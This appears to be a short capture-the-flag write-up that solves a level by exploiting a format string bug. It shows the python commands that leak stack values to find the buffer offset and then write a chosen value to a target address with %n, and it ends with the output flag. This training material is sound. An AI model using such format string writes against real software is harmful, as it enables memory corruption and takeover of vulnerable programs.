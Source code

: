 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb: \
```shell
$ # find where our buffer is written in memory:
$ python -c 'print "AAAA " + "%x " * 15' | ./level4
AAAAb7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520
$ # so we see here our A's written at location 12.

$ # we know we need to write '16930116' at address '0x8049810', and we can use printf's padding and the `%n` modifier to write how many bytes we want to this address:
$ python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' | ./level4
                    |_ write 4b (addr)   |_ write 16930112 bytes
...
...
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

